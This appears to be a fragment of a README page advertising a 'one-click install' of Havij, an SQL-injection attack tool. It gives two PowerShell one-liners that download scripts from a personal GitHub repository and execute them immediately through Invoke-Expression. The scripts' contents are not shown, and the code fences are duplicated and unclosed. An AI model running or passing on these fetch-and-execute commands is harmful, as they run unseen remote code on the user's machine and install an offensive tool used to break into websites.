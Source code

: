 ## Havij one-click install (PowerShell)

```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/onelazy.ps1 | iex

```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/hlazy.ps1 | iex
